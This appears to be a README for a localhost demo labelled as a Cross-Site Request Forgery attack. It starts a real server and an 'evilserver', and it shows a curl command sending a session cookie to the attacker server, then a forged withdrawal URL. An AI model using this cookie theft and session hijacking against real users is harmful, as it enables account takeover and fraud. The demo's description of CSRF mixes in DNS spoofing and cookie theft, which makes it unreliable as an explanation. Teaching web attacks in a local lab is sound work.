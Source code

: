 # Cross-Site Request Forgery (CSRF) attack demo

Cross-Site Request Forgery (CSRF) attack demo.

Start the real server:

```sh
cd server
npm install
node app.js
```

Open a separate terminal session and start the malicious server:

```sh
cd evilserver
go run .
```

```sh
curl --cookie "SESSION_COOKIE=TestCookie123" localhost:3666/cookies
```

Login to the real server: 

```
http://localhost:3000/login
```

This will generate a login token called `SESSION_TOKEN`.

Now, an attacker that is able to spoof the DNS could make the user navigate to a fake website and extract sensitive data. Example:

```
http://localhost:3666/cookies
```

After extracting the cookie, the attacker could then use the session identification to invoke the real server pretending to be the real user:

```
http://localhost:3000/withdraw=10000
```
